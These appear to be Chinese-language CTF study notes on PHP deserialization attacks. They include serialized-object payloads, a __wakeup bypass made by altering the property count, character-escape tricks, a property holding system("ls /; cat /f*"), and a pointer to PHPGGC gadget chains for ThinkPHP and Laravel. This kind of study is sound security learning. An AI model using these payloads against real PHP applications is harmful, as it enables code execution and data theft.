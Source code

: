 - [PHP 内置类的应用](https://www.cnblogs.com/iamstudy/articles/unserialize_in_php_inner_class.html#_label1_0)
  
  ```php
  O:1:"A":1:{
      s:4:"aaaa";
      O:1:"B":1:{
          s:4:"bbbb";
          s:5:"/flag";
      }
  }
  ```
- 使用大写 S 可以自动转义`\61`等符号
- protected 变量
	- `S:7:"\00*\00aaaa";`
- 可以试试通过改变字符串长度实现字符逃逸
- unserialize()会把多余的字符串当垃圾处理，在花括号内的就是正确的，花括号后面的就都被扔掉
- `O:1:"A":1:`也可以用`O:+1:"A":1:`和`O:1:"A":+1:`代替
- 对象内可以用指针：`R:2;`指向第二个元素
  id:: 6478aaed-0cfc-41e3-a12e-55de79af3104
	- 可以这样构造
		- ```php
		  $t = new test;
		  $t -> c = "system(\"ls /; cat /f*\");";
		  $t -> a = & $t -> b;
		  $s = serialize($t);
		  ```
- `__wakeup`绕过：修改类的键数量
  collapsed:: true
	- ```php
	  <?php
	  
	  class Test {
	      public $a;
	      function __wakeup() {
	          echo "wakeup";
	      }
	      function __destruct() {
	          echo "destruct";
	      }
	  }
	  
	  $t = new Test();
	  $t -> a = "114514";
	  $s = serialize($t);
	  $s = str_replace('"Test":1', '"Test":2', $s);
	  echo serialize($t);
	  $t2 = unserialize($s);
	  var_dump($t2);
	  ?>
	  
	  ```
		-
- 快速反序列化：参考[[CTF/WP/数博会 贵阳杯]]
  id:: 64b5744d-1d6c-43e5-95d5-2121b31d0d57
- 自定义序列化对象在序列化后以C开头，[例题](((64b2aacc-598b-4be7-b7d4-48230820277e)))
- 可以使用[PHPGGC](https://github.com/ambionics/phpggc)自动构建ThinkPHP, Lavaral等的反序列化payload
-